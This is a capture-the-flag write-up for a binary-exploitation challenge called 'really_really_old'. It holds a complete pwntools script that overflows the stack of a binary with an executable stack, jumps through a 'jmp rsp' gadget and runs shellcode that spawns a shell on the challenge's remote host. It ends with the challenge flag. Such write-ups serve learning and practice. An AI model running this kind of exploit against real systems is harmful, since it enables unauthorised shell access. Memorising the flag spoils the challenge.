

Check file protections

```sh
checksec --file really_really_old
```



Stack is executable so we can do shellcode injection attack

Here is the solve script

```python
#!/usr/bin/env python3

from pwn import *

exe = './really_really_old'
elf = context.binary = ELF(exe,checksec=False)
context.log_level='debug'

host,port = '165.227.103.166',6000

#p = process(exe)
p = remote(host,port)

padding = 56

jmp_rsp = asm('jmp rsp')
jmp_rsp = next(elf.search(jmp_rsp))

shellcode = asm(shellcraft.sh())
shellcode += asm(shellcraft.exit())

payload = flat(
    asm('nop') * padding,
    jmp_rsp,
    asm('nop') * 16,
    shellcode
)


p.sendlineafter(b'FLAVORTEXT: =+-',payload)
p.interactive()
```

**_flag : CIT{n33ds_a_c4n4ry_0r_smth_ROFL_io3qwd3f32oFBIOq}_**
